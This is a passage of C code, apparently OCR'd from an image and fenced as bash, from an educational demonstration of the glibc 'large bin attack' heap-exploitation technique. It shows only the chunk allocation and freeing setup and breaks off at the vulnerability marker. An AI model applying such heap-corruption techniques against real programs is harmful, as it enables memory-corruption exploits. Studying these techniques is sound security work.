 ```bash
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
                    "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                    " the third large chunk during the free()\n\n");
    malloc(0x20);

    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void* p4 = malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                    " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                    ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                    " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

```
